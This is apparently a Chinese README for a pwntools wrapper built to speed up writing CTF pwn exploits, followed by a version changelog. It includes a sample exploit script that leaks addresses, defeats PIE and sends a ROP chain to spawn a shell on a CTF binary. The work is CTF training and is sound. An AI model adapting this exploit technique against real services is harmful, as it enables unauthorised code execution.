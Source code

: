 # pwn_all_in_one

## 背景

每次写pwn题的时候，都需要使用到重复的模板，个人感觉非常的占位置，所以继承了一个pwntools.py的文件

每次写题目的时候只需要`from pwntools import *`就可以开始快速写题，而无需注意到某些烦人的代码片段

## 使用

本脚本是基于Python3的pwntools，使用到了一些Python3独有的f-string之类的东西，所以Python2的pwner可能无法使用，得自己改改

使用方法非常的简单, 把下面的pwntools.py放到`~/.local/lib/python3.X/site-packages`, Python默认导包的路径就行了

随便写了一个脚本用例来参考一下

- 如果是打本地, 直接`python3 exp.py`就可以进行本地运行了
- 如果是打远程, 使用`python3 exp.py 114.51.41.91:11451` 或者 `python3 exp.py 114.51.41.91 11451` 就可以自动打远程

当然远程ip还可以在`init`函数中设置, 或者在执行init函数之前设置`pwnio`对象的`ip`和`port`属性

```python
from pwntools import *

init("./buffer_fly")    # 调用init函数,每次只需要调用这个就可以开始写题了,必要的参数是文件名！

sla("name", "")

ru("your name:")
rl()

close_plt = pwnio.elf.plt["close"]    # 注意要调用pwnio这个类中的elf,也可以使用pwnio["elf"].plt["close"]

true_close_plt = i16(hex(uu64(ru("\n"))) + "0a") - 10
info(true_close_plt)
base = true_close_plt - (0x55765683C100 - 0x55765683B000)
info(base)

pop_rdi_ret = 0x0000000000001423 + base
ret = 0x000000000000101A + base

sa("age", b"/bin/sh|")
ru("your age:")
stack = l64()   # l64是一个封装好的接受\x7f开头的64位地址

info(f"stack --> {hex(stack)}")

bin_sh = stack + (0x7FFC4757AF40 - 0x7FFC4757B060)
back_door = base + 0x129D

payload = (
    b"sh 0>&2 ".ljust(0x28, b"a")
    + p64(pop_rdi_ret)
    + p64(bin_sh)
    + p64(back_door)
    + p64(0)
)

dbg()   # 调用gdb.attach, 如果是远程, 那么就不会执行

sa("number", payload)
sl("sh 1>&2")

ia()    # 交互
```

## 更新日志
- 2022.9.4 version1
  - 配置了部分常用函数
- 2022.9.22 version2
  - 默认使用wsl2 ubuntu进行debug， 若要自己使用自己的终端调试配置，在init函数中第四个参数terminal_args中添加
- 2022.9.25 version3
  - 修复了静态文件加载会爆libc无效错误的异常
  - 添加了一个timeout模块，用来进行自定义事件的pwn
  - 更新了init函数，添加了自定义ip和port的功能，同时保留了命令行输入ip和port的功能
- 2022.10.1 version4
  - 重构了init模块
  - 将所有的全局变量转为pwnio类中的成员变量，方便其他文件导入模块时更改
  - 删除了部分不必要的函数
  - 优化了dbg()函数，远程将不会开启gdb调试
  - 更新了open_dbg()和close_dbg()
  - 规范了函数注释
- 2022.10.31 version5
  - 优化了pwnio，使用了Python的面向对象
  - 目前调用pwnio对象的属性可以通过`.`的方式调用，也可以使用`[]`的方式调用
  - 新添加一个均分列表的方法